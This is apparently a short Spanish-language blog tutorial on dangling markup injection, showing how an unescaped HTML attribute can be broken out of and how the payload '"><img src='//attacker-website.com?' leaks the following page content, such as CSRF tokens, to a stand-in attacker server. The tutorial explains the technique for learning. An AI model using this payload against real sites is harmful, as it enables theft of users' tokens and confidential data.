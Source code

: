 ```yaml
---
title: Dangling Markup Injection
date: 2023-04-11
categories: [Vulnerabilities, Web]
tags: [xss, vulnerabilities, code_injection, web]
comments: false
---
```


Llamamos "Dangling Markup Injection" a la técnica para capturar datos entre dominios en situaciones en las que no es posible un ataque XSS completo.

Suponiendo que una aplicación incorpora datos controlables en sus respuestas de forma no segura:
```
<input type="text" name="input" value="DATOS CONTROLABLES
```
Supongamos también que la aplicación no filtra, sanitiza o escapa los caracteres > o ". Podemos usar la siguiente sintaxis para romper el valor del atributo citado y la etiqueta que lo encierra, y volver a un contexto HTML:
```
">
```

En este caso, podemos intentar realizar XSS. Pero supongamos que un ataque XSS normal no es posible debido a la sanitización de la entrada, CSP u otros obstáculos. Incluso en este caso, aún sería posible lanzar un ataque de "Dangling Markup Injection" utilizando un payload como:
```
"><img src='//attacker-website.com?
```

Este payload crea una etiqueta "img" y define el inicio de un atributo "src" que contiene una URL en el servidor del atacante. Tengamos en cuenta que el payload que inyectamos no cierra el atributo "src", el cual se queda "colgando". Cuando un navegador analiza la respuesta, está mirara adelante hasta que se encuentre una comilla simple para terminar el atributo. Todo hasta ese carácter se tratará como parte de la URL y se enviará al servidor del atacante dentro de la cadena de consulta de la URL. Todos los caracteres no alfanuméricos, incluidos los saltos de línea, se codificaron como URL.

La consecuencia del ataque es que podremos capturar parte de la respuesta de la aplicación después del punto de inyección, que puede contener datos confidenciales. Según la funcionalidad de la aplicación, esto podría incluir token CSRF, mensajes de correo electrónico o datos financieros.

Cualquier atributo que haga una solicitud externa se puede usar para el marcado pendiente.
